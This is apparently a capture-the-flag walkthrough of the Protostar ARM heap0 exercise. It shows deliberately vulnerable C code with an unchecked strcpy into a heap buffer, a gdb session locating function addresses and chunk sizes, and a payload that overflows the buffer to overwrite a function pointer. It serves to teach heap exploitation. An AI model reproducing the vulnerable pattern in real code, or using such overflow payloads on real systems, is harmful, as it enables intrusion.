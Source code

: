 ## Protostar ARM heap0

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);

  f->fp();

}

```
#### _Let's start_

We start with the challenges related to the heap. As we can see from the source code, to solve the challenge, we have to change the code flow, overwriting `f->fp`, which is set with the address of the function `nowinner()`.


```c
pi@raspberrypi:~/protostar/heap/heap0 $ ./heap0 AAAA
data is at 0x22150, fp is at 0x22198
level has not been passed
```

Let's run the program, disassemble the main function, look for `winner()` and `nowinner()` addresses and look to the [heap chunk](https://sourceware.org/glibc/wiki/MallocInternals) related to `d` (0x22150).
```code
pi@raspberrypi:~/protostar/heap/heap0 $ gdb ./heap0
...
Reading symbols from ./heap0...done.
gef➤  disassemble main
Dump of assembler code for function main:
   0x000104d4 <+0>:	push	{r11, lr}
   0x000104d8 <+4>:	add	r11, sp, #4
   0x000104dc <+8>:	sub	sp, sp, #16
   0x000104e0 <+12>:	str	r0, [r11, #-16]
   0x000104e4 <+16>:	str	r1, [r11, #-20]	; 0xffffffec
   0x000104e8 <+20>:	mov	r0, #64	; 0x40
   0x000104ec <+24>:	bl	0x1037c <malloc@plt>
   0x000104f0 <+28>:	mov	r3, r0
   0x000104f4 <+32>:	str	r3, [r11, #-8]
   0x000104f8 <+36>:	mov	r0, #4
   0x000104fc <+40>:	bl	0x1037c <malloc@plt>
   0x00010500 <+44>:	mov	r3, r0
   0x00010504 <+48>:	str	r3, [r11, #-12]
   0x00010508 <+52>:	ldr	r3, [r11, #-12]
   0x0001050c <+56>:	ldr	r2, [pc, #72]	; 0x1055c <main+136>
   0x00010510 <+60>:	str	r2, [r3]
   0x00010514 <+64>:	ldr	r2, [r11, #-12]
   0x00010518 <+68>:	ldr	r1, [r11, #-8]
   0x0001051c <+72>:	ldr	r0, [pc, #60]	; 0x10560 <main+140>
   0x00010520 <+76>:	bl	0x10358 <printf@plt>
   0x00010524 <+80>:	ldr	r2, [r11, #-8]
   0x00010528 <+84>:	ldr	r3, [r11, #-20]	; 0xffffffec
   0x0001052c <+88>:	add	r3, r3, #4
   0x00010530 <+92>:	ldr	r3, [r3]
   0x00010534 <+96>:	mov	r1, r3
   0x00010538 <+100>:	mov	r0, r2
   0x0001053c <+104>:	bl	0x10364 <strcpy@plt>
   0x00010540 <+108>:	ldr	r3, [r11, #-12]
   0x00010544 <+112>:	ldr	r3, [r3]
   0x00010548 <+116>:	blx	r3
   0x0001054c <+120>:	mov	r3, #0
   0x00010550 <+124>:	mov	r0, r3
   0x00010554 <+128>:	sub	sp, r11, #4
   0x00010558 <+132>:	pop	{r11, pc}
   0x0001055c <+136>:			; <UNDEFINED> instruction: 0x000104b8
   0x00010560 <+140>:	andeq	r0, r1, r0, lsl #12
   End of assembler dump.
gef➤  p winner
$1 = {void ()} 0x1049c <winner>
gef➤  p nowinner
$2 = {void ()} 0x104b8 <nowinner>
gef➤  heap chunk 0x22150
Chunk(addr=0x22150, size=0x48, flags=PREV_INUSE)
Chunk size: 72 (0x48)
Usable size: 68 (0x44)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off
```
As we can see, the size of the chunk related to `d` is 72 bytes starting at `0x22150` and at `0x22198` the heap chunk related to `fp`  starts. If we fill the 72 bytes of the `d` chunk, the next byte in our string will be able to overwrite the `f->fp()` value.

Let's try
```code
pi@raspberrypi:~/protostar/heap/heap0 $ ./heap0 $(python -c "print 'A'*72 + '\x9c\x04\x01'")
data is at 0x22150, fp is at 0x22198
level passed
```
__*Done :)*__
